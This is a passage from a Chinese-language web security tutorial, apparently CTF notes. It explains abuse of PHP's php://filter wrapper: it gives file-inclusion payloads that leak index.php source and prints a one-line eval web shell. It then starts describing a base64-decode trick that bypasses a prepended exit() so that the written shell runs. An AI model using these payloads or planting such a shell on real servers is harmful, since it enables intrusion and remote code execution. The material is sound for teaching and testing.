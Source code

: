 ```plain
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php
```

<font style="color:rgb(77, 77, 77);">利用filter协议读文件，将index.php通过</font><font style="color:rgb(78, 161, 219) !important;">base64</font><font style="color:rgb(77, 77, 77);">编码后进行输出。这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做php文件执行了，而通过编码后则可以读取文件源码。使用的convert.base64-encode，就是一种过滤器。</font>

##### <font style="color:rgb(77, 77, 77);">利用filter伪协议绕过exit</font>
###### <font style="color:rgb(77, 77, 77);">什么是exit</font>
<font style="color:rgb(77, 77, 77);">exit指的是在进行写入PHP文件操作时，执行了以下函数：</font>

```plain
file_put_contents($content, '<?php exit();' . $content);
```

<font style="color:rgb(77, 77, 77);">亦或者</font>

```plain
file_put_contents($content, '<?php exit();?>' . $content);
```

<font style="color:rgb(77, 77, 77);">这样，当你插入一句话木马时，文件的内容是这样子的：</font>

```plain
<?php exit();?>

<?php @eval($_POST['snakin']);?>
```

<font style="color:rgb(77, 77, 77);">这样即使插入了一句话木马，在被使用的时候也无法被执行。这样的死亡exit通常存在于缓存、配置文件等等不允许用户直接访问的文件当中。</font>

###### <font style="color:rgb(77, 77, 77);">base64decode绕过</font>
<font style="color:rgb(77, 77, 77);">利用filter协议来绕过，看下这样的代码：</font>

```plain
<?php

$content = '<?php exit; ?>';

$content .= $_POST['txt'];

file_put_contents($_POST['filename'], $content);
```

<font style="color:#000000;">当用户通过POST方式提交一个数据时，会与死亡exit进行拼接，从而避免提交的数据被执行。</font>

<font style="color:#000000;">然而这里可以利用php://filter的base64-decode方法，将$content解码，利用php base64_decode函数特性去除exit。</font>

<font style="color:rgb(77, 77, 77);">base64编码中只包含64个可打印字符，当PHP遇到不可解码的字符时，会选择性的跳过，这个时候base64就相当于以下的过程：</font>

```plain
<?php

$_GET['txt'] = preg_replace('|[^a-z0-9A-Z+/]|s', '', $_GET['txt']);

base64_decode($_GET['txt']);
```
